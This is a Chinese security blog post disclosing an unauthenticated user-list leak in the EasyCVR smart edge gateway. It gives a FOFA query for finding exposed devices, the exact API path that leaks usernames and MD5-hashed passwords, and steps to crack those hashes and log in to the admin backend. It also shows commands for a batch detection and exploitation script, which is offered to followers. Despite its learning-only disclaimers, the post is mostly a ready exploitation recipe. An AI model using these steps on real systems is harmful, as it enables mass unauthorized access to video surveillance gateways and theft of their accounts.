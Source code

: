 #  EasyCVR智能边缘网关未授权访问用户信息泄露漏洞   
原创 安全透视镜  网络安全透视镜   2023-10-10 07:00  
  
# 免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
****  
![](https://mmbiz.qpic.cn/mmbiz_jpg/apNprpz3YS4ibIBPcmgJMLNXWIaCPcW54T0nMWm7DFVY0XvNKB92Fz41xWKqTr2icv3Nem53Q5sJml7YG6fGPBeg/640?wx_fmt=jpeg "")  
  
# 一、漏洞描述  
  
****  
EasyCVR智能边缘网关是TSINGSEE青犀视频旗下一款软硬一体的产品，可提供多协议的设备接入、采集、AI智能检测、处理、分发等服务。通过对视频监控场景中的人、车、物等进行AI检测与抓拍，对异常情况进行智能提醒和通知，可广泛应用于安防监控、智能检测、通行核验等场景。  
  
EasyCVR智能边缘网关存在userlist 信息泄漏，攻击者可以直接登录后台，进行非法操作。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5ScqVTPjicm4OgBhXgLfPH5xKANzKaMvRlyyiaMprzebuljp9t1lZLGfTg3blKSKerm67FsUCtNv5w/640?wx_fmt=png "")  
  
# 二、网络空间搜索引擎查询  
  
  
fofa查询  
```
title="EasyCVR"
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5ScqVTPjicm4OgBhXgLfPH5nygHXPdap64lpNNX2MKTiaOd8EYX58y9kjSl7azDvMg59icUibsc3JKSg/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5ScqVTPjicm4OgBhXgLfPH5IZQicoCpcVfnyk25ZtXf6PejGPiaw6cz4BOXJckLIWhonmCA0MFuYslQ/640?wx_fmt=png "")  
  
# 三、漏洞复现  
  
  
poc  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5ScqVTPjicm4OgBhXgLfPH5iaIh3Plenp1icYib5rpHm1EBQznG7EgzTGDMdoRsYeax2LCapJPjxNBdQ/640?wx_fmt=png "")  
  
或浏览器直接访问路径 /api/v1/userlist?pageindex=0&pagesize=10  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5ScqVTPjicm4OgBhXgLfPH52cibvV8shNz9pz2dmaN0Hl3libYI91q5qCQYc2E5xp5BOzUxn0pD4w1A/640?wx_fmt=png "")  
  
然后将md5加密后的密码解密  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5ScqVTPjicm4OgBhXgLfPH5gUkDCeFQlVDBEAqIPQibcjMQWcabFBqkPHVxYeZUfice6YXwBDn8wZrg/640?wx_fmt=png "")  
  
然后使用上面的Name 值作为用户名登录  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5ScqVTPjicm4OgBhXgLfPH5Gk2moeDZcQQWdnicibRlQ2hl3VticykaXNIkj1qeydGL7wqCWKjI5C7kw/640?wx_fmt=png "")  
  
# 四、批量检测与利用  
  
  
单个检测  
```
python .\EasyCVR.py -u ip:port
```  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5ScqVTPjicm4OgBhXgLfPH5MGic2Uv1l5dnmzbiayXQicBFPzgpKGFU4VmFrt7H7ic414K4K2IyJuOGUw/640?wx_fmt=png "")  
  
  
批量检测  
```
python .\EasyCVR.py -f  filename
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS5ScqVTPjicm4OgBhXgLfPH5IrKwqyJXZ1iaDtNhhQULoiaIy12q6DNem7ZpgU846dULvzcq1yiaAPpiaQ/640?wx_fmt=png "")  
  
  
**关注微信公众号 网络安全透视镜 回复 20231010 获取批量检测利用脚本**  
  
# 免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
****  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS4ibIBPcmgJMLNXWIaCPcW54mVicYJkaOO1JQicEDBGCBM1P7IiaiablZ9tEUrP27FyvB9CZWl5SiaqhicDw/640?wx_fmt=png "")  
  
  
